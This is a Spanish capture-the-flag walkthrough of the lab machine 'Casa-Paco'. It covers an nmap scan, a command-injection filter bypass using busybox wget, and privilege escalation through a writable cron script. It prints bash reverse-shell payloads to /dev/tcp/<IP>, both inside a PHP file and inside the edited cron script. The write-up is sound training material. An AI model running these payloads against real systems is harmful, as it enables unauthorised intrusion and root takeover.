



Máquina **Casa-Paco** de [The Hackers Labs](https://thehackerslabs.com)

Autor: Condorhacks & Curiosidadesdehackers

Dificultad: Principiante

IP: 192.168.45.168 (en mi caso)



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -p- -sSVC --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 192.168.45.168
```

```css
# Nmap 7.95 scan initiated Tue Jan 14 18:20:21 2025 as: nmap -p- -sSVC --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 192.168.45.168
Nmap scan report for 192.168.45.168
Host is up, received arp-response (0.0023s latency).
Scanned at 2025-01-14 18:20:22 -03 for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 72:58:87:c5:87:63:3f:fa:43:da:ed:69:2f:ed:a7:d0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDeEPbzWvfbdVsbmQKgz5ST3C5xmvjfb4i4d59wj4cO2mnMZW9jciFeto0YjsabjZcqwslleYKgrCinkVK7TdFA=
|   256 13:31:bc:26:a0:2e:4a:ae:b8:31:75:7f:0e:17:32:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICroiKE+wS8F7kGGigBnhAMdgLUi1FftnzIIP1qHGTZF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://casapaco.thl
MAC Address: 08:00:27:AC:06:C7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 14 18:20:35 2025 -- 1 IP address (1 host up) scanned in 14.42 seconds
```

Vemos 2 puertos abiertos:

•`Puerto 22: OpenSSH 9.2p1 Debian`

•`Puerto 80: Apache httpd 2.4.62`

además podemos ver en el escaneo un dominio: casapaco.thl

el cual añadiremos al `/etc/hosts`

#### # Puerto 80

Si revisamos la página no veremos nada, pero al ir a donde dice menu y luego en "para llevar", veremos la siguiente página donde podremos ejecutar comandos:



si probamos un poco, veremos que hay caracteres y comandos bloqueados:

Comandos:

• `ls`

• `whoami`

• `cat`

Caracteres:

• /

• =

• '

• "

• +

• &

• ;

También vemos que no tenemos ni `wget` ni `curl`, pero tenemos `busybox`, por lo que realmente si tenemos `wget`.

# Intrusión

Crearemos un archivo llamado "index.html" el cual contenga esto:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/<IP>/443 0>&1'");
?>
```

luego pondremos un servidor http con python:

```css
sudo python3 -m http.server 80
```

y en la página ejecutaremos lo siguiente:

```css
busybox wget <IP> -O index.php
```

finalmente escuchamos con netcat por el puerto 443:

```css
sudo nc -nlvp 443
```

y entramos a la página.

# Escalada De Privilegios

### www-data

Al revisar el directorio `/home/`, veremos la carpeta de un solo usuario la cual podremos leer. En la carpeta del usuario veremos un script en bash el cual podemos editar y contiene esto:

```bash
#!/bin/bash

# Generar un log de actividad
echo "Ejecutado por cron el: $(date)" >> /home/pacogerente/log.txt
```

también veremos que en el mismo directorio se crea un "log.txt" el cual contiene lo mismo que pone ahi y al parecer hay una tarea cron ejecutando el script cada 1 minuto. Ahora modificaremos el archivo de la siguiente manera para poder escalar a root:

```bash
#!/bin/bash

# Enviar reverse shell
echo "Enviando reverse shell" >> /home/pacogerente/log.txt
bash -c 'bash -i >& /dev/tcp/<IP>/9090 0>&1'
```

una vez lo tengamos, escuchamos con netcat por el puerto 9090:

```css
nc -nlvp 9090
```

y al esperar un poco tendremos una shell como root.

### Root



Gracias por leer ;)